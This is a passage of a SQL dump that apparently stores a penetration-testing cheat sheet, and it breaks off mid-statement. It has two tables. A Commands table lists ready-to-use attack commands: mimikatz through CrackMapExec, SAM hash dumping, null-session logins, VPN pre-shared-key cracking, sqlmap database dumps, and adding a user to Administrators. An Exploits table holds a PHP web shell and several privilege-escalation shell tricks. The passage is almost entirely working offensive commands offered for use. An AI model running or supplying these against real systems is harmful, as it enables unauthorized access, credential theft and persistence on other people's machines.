 'run a mimikatz module', 'crackmapexec smb &lt;target(s)> -u &lt;username> -p &lt;password> --local-auth -M mimikatz', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (34, 'CrackMapExec', 'Command execution', 'crackmapexec smb &lt;target(s)> -u ''&lt;username>'' -p ''&lt;password>'' -x whoami', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (35, 'CrackMapExec', 'check logged in users', 'crackmapexec smb &lt;target(s)> -u ''&lt;username>'' -p ''&lt;password>'' --lusers', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (36, 'CrackMapExec', 'dump local SAM hashes', 'crackmapexec &lt;target(s)> -u ''&lt;uesrname>'' -p ''&lt;password>'' --local-auth --sam', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (37, 'CrackMapExec', 'null session login', 'crackmapexec smb &lt;target(s)> -u '''' -p ''''', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (38, 'CrackMapExec', 'list modules', NULL, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (39, 'CrackMapExec', 'pass the hash', NULL, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (41, 'IKE-Scan', 'attack pre shared key with dictionary', 'psk-crack -d &lt;/path/to/dictionary> &lt;psk file>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (42, 'IKE-Scan', 'If you find a SonicWALL VPN using agressive mode it will require a group id, the default group id is GroupVPN', 'ike-scan &lt;IP> -A -id GroupVPN', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (43, 'IKE-Scan', 'to find aggressive mode VPNs and save for use with psk-crack', 'ike-scan &lt;IP> -A -P&lt;file out>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (44, 'John the Ripper', 'crack passwords with korelogic rules', 'for ruleset in `grep KoreLogicRules john.conf | cut -d: -f 2 | cut -d\] -f 1`; do ./john --rules:${ruleset} -w:&lt;wordlist> &lt;password_file> ; done', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (45, 'Nmap', 'create a list of ip addresses ', 'nmap -sL -n 192.168.1.1-100,102-254 | grep "report for" | cut -d " " -f 5 > ip_list_192.168.1.txt', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (46, 'Linux commands', 'mount NFS share on linux', 'mount -t nfs server:/share /mnt/point', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (47, 'PowerShell', 'create new user', 'net user &lt;username> &lt;password> /ADD', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (48, 'PowerShell', 'add user to a group (normaly Administrators)', 'net localgroup &lt;group> &lt;username> /ADD', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (49, 'PSK-Crack', 'brute force with specified length and specified chars (if left blank default is 36)', 'psk-crack -b &lt;#> --charset="&lt;charlist>" &lt;key file>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (50, 'PSK-Crack', 'dictianary attack', 'psk-crack -d &lt;file> &lt;key file>', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (51, 'SQLMap', 'check form for SQL injection', 'sqlmap -o -u "&lt;url of form>" --forms', NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (52, 'SQLMap', 'Scan url for union + error based injection with mysql backend and use a random user agent + database dump', 'sqlmap -u "&lt;form URL>?id=1>"  --dbms=mysql --tech=U --random-agent --dump ', NULL);  -- Table: Exploits CREATE TABLE Exploits (Target TEXT, Type TEXT, Criteria TEXT, Method TEXT, Code TEXT, Result TEXT, Notes TEXT); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES ('Website', 'Injection', 'ability to write to website folder', 'create or edit a mage of the website and insert the code to get remote access to the machine', '&lt;? php system ($ _ GET [''cmd'']); ?>', 'execute code via url', '&lt;URL of php>?cmd=&lt;code to execue>'); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES ('Linux', 'Priv Enum', 'shell', 'enter code into the shell to find vulnerbilities int he machine', 'find / -perm -u=s -type f 2>/dev/null', 'SUID binaries', 'link output to GTFO bins and exploit'); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES ('Box', 'Priv Esc', 'Python binary running as root', 'generate a shell using python to grain root access', 'python3 -c "import pty;pty.spawn(''/bin/sh'');"', 'root shell', 'change pyton varibale acordingly'); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES ('SQL', 'Priv Esc', 'MySQL binary running as root', 'enter into MySQL command line and break out into root y using the code', 'mysql> \! /bin/sh', 'get shell from root priv SQL', NULL); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES ('Linux', 'Priv Enum', 'low privilage shell', 'use the code to search for programs that run as sudo without password', 'sudo -l', NULL, 'list programs that can be used with sudo and no password'); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES ('Windows', 'Priv Esc', 'Powershell', 'use code to enumerate priv esc opertunities', 'wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """', 'list of unquoted service paths that might be used for priv esc', NULL); INSERT INTO Exploits (Target, Type, Criteria, Method, Code, Result, Notes) VALUES ('Website', 'LFI', NULL, NULL, NULL, NULL, NULL); INSERT INTO Exploits (Target, Type, Criteria, Method,